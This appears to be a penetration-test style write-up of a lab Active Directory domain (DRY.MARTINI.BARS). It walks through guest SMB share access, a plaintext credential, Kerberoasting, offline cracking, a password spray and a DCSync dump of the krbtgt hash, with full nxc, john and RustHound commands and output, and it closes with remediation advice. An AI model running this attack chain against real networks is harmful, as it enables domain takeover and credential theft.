







# 1. Executive Summary

The `DRY.MARTINI.BARS` Active Directory environment was successfully compromised, resulting in full Domain Administrator access and the extraction of the `krbtgt` NTLM hash. 

Initial access was obtained through a Guest-accessible SMB share containing plaintext credentials. Following enumeration, a Kerberoastable service account with Domain Admin privileges was identified and cracked offline. A lateral pivot through password reuse on a secondary Domain Admin account allowed for a DCSync attack, ultimately yielding the `krbtgt` hash—the master key to the domain.

| Metric | Value |
|---|---|
| **Highest Privilege Achieved** | Domain Administrator |
| **Initial Access Vector** | Guest-readable SMB share (`notes`) |
| **Primary Exploitation** | Kerberoasting (RC4) + Password Reuse |
| **Final Objective** | KRBTGT NTLM Hash (`2**************************************`) |
| **Critical Findings** | 4 |

---

# 2. Attack Path Overview

```text
Guest SMB (notes) → notes.txt → mprice creds
    → RustHound Enumeration → Kerberoast ATHENA_SVC
    → Cracked (1dirtymartini) → Password Reuse (athena.t0)
    → DCSync → KRBTGT Hash
```


# 3. Phase 1 — Reconnaissance
## 3.1 Port Scanning

Initial network reconnaissance was performed using rustscan to identify exposed services on the target Domain Controller.
bash

```rustscan -a 10.1.248.72 -- -A -v
```
### Result:
```
Open 10.1.248.72:53
Open 10.1.248.72:88
Open 10.1.248.72:135
Open 10.1.248.72:139
Open 10.1.248.72:389
Open 10.1.248.72:445
Open 10.1.248.72:464
Open 10.1.248.72:593
Open 10.1.248.72:636
Open 10.1.248.72:3269
Open 10.1.248.72:3268
Open 10.1.248.72:3389
Open 10.1.248.72:5985
Open 10.1.248.72:9389
```
## 3.2 Service Version Detection


```3389/tcp open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: DRY
|   NetBIOS_Domain_Name: DRY
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: DRY.MARTINI.BARS
|   DNS_Computer_Name: DC01.DRY.MARTINI.BARS
|   Product_Version: 10.0.26100
```

# 4. Phase 2 — Initial Access
## 4.1 Guest SMB Enumeration

A null authentication check was performed against the SMB service, revealing that the Guest account had read and write access to the notes share.
bash

```nxc smb DC01.DRY.MARTINI.BARS -u 'guest' -p '' --shares
```

### Result:

```
SMB  10.1.248.72  445  DC01  [+] DRY.MARTINI.BARS\guest: 
SMB  10.1.248.72  445  DC01  [*] Enumerated shares
SMB  10.1.248.72  445  DC01  Share           Permissions     Remark
SMB  10.1.248.72  445  DC01  -----           -----------     ------
SMB  10.1.248.72  445  DC01  IPC$            READ            Remote IPC
SMB  10.1.248.72  445  DC01  notes           READ,WRITE      
```

## 4.2 Share Spidering & Credential Discovery

The notes share was spidered and its contents were downloaded to the local attack machine.

```bash

nxc smb DC01.DRY.MARTINI.BARS -u 'guest' -p '' -M spider_plus --share notes -o DOWNLOAD_FLAG=True
```
### Result:
```
SPIDER_PLUS  [+] Downloads successful: 1
SPIDER_PLUS  [+] All files processed successfully.
```
### Content of notes.txt:
text

- Order more gin for lakeside
- Look for an engagement ring
- Check that notes works from Linux Mint

creds
m********e:***********    

## 4.3 Credential Validation

The discovered credentials for mprice were validated against the domain.
```bash

nxc smb 10.1.248.72 -u 'mprice' -p '*martini*'
````
### Result:

```SMB  10.1.248.72  445  DC01  [+] DRY.MARTINI.BARS\mprice:*martini*
```

# 5. Phase 3 — Domain Enumeration
## 5.1 BloodHound Collection (RustHound-CE)

Standard Python-based BloodHound collectors (bloodhound-python, bloodhound-ce-python, and nxc) failed due to Windows Server 2025's strict LDAP signing and TLS requirements. RustHound-CE was compiled and utilized to bypass these Python library limitations.
```bash

/home/ransome/.cargo/bin/rusthound-ce -d DRY.MARTINI.BARS -u 'mprice' -i 10.1.248.72 -f DC01.DRY.MARTINI.BARS -k -z
```
### Result:

```
[2026-11-03T21:02:22Z INFO  rusthound_ce::json::maker::common] 7 users parsed!
[2026-11-03T21:02:22Z INFO  rusthound_ce::json::maker::common] 63 groups parsed!
[2026-11-03T21:02:22Z INFO  rusthound_ce::json::maker::common] .//20261103220222_dry-martini-bars_rusthound-ce.zip created!
```
## 5.2 Attack Path Identification

Analysis of the ingested BloodHound data revealed a Kerberoastable service account, ATHENA_SVC, which held Domain Admin privileges.




# 6. Phase 4 — Kerberoasting
## 6.1 Extracting the Service Ticket

A Kerberos Service Ticket (TGS) was requested for the ATHENA_SVC account.
```bash

nxc ldap 10.1.248.72 -u 'mprice' -p '*martini*' --kerberoasting athena_hash.txt
```


## 6.2 Cracking the Hash

The extracted Kerberos hash was cracked offline using john and the rockyou.txt wordlist.
```bash

john --wordlist=/usr/share/wordlists/rockyou.txt athena_hash.txt
```
### Result:

```
1************i    (?)
1g 0:00:00:17 DONE (2026-11-11 02:11) 0.05669g/s 738220p/s 738220c/s 738220C/s 1dog2c..1debomb
```


## 6.3 Account Privilege Verification

Authentication as ATHENA_SVC confirmed the account's membership in highly privileged groups.
```bash

nxc ldap 10.1.248.72 -u 'ATHENA_SVC' -p '1dirtymartini' --groups
```

### Result:
```
LDAP  DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini
LDAP  -Group-               -Members-
LDAP  Administrators        3
LDAP  Domain Admins         2
LDAP  Enterprise Admins     1
```
# 7. Phase 5 — Password Reuse & Privilege Escalation
## 7.1 Lockout Policy Verification

Before executing a password spray, the domain password policy was checked.
```bash

nxc smb 10.1.248.72 -u 'ATHENA_SVC' -p '1dirtymartini' --pass-pol
```
### Result:

```SMB  DC01  Account Lockout Threshold: None
```




## 7.2 Password Spray (Targeted Wordlist)

A targeted wordlist was generated based on the lab theme. The Domain Admin account athena.t0 was sprayed to test for password reuse.
```bash

nxc smb 10.1.248.72 -u 'athena.t0' -p custom_passwords.txt --continue-on-success
```
### Result:

```SMB  10.1.248.72  445  DC01  [+] DRY.MARTINI.BARS\athena.t0:1dirtymartini (Pwn3d!)
```







Finding: athena.t0 shares the same password (1**************i) as ATHENA_SVC.

# 8. Phase 6 — Domain Compromise (DCSync)
## 8.1 Extracting the KRBTGT Hash

Using the credentials for athena.t0, a DCSync attack was executed to extract the krbtgt NTLM hash.
```bash

nxc smb 10.1.248.72 -u 'athena.t0' -p '1dirtymartini' --ntds drsuapi --user krbtgt
```

### Result:

```SMB  DC01  [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB  DC01  krbtgt:*********************************************************:::
SMB  DC01  [+] Dumped 1 NTDS hashes to .../DC01_10.1.248.72_2026-11-13_181407.ntds
```



### KRBTGT NTLM Hash:

```
2***********************************1
```

# 9. Findings & Remediation
##	Finding	Severity	Remediation
1	Guest-Readable/Writable notes share containing plaintext credentials	Critical	Remove Guest access from all SMB shares. Audit share ACLs.
2	Kerberoastable Domain Admin service account (ATHENA_SVC) with weak password	Critical	Use 25+ character service account passwords. Migrate to gMSA.
3	Password reuse across Domain Admin accounts (ATHENA_SVC / athena.t0)	Critical	Enforce unique passwords per privileged account. Implement LAPS.
4	No account lockout threshold	High	Enable lockout threshold (5 attempts) and lockout duration (30 mins).


# 10. Appendix — Evidence

    notes.txt SMB extraction

    RustHound-CE execution log

    Kerberoast hash output (athena_hash.txt)

    John the Ripper crack output

    --ntds drsuapi DCSync output

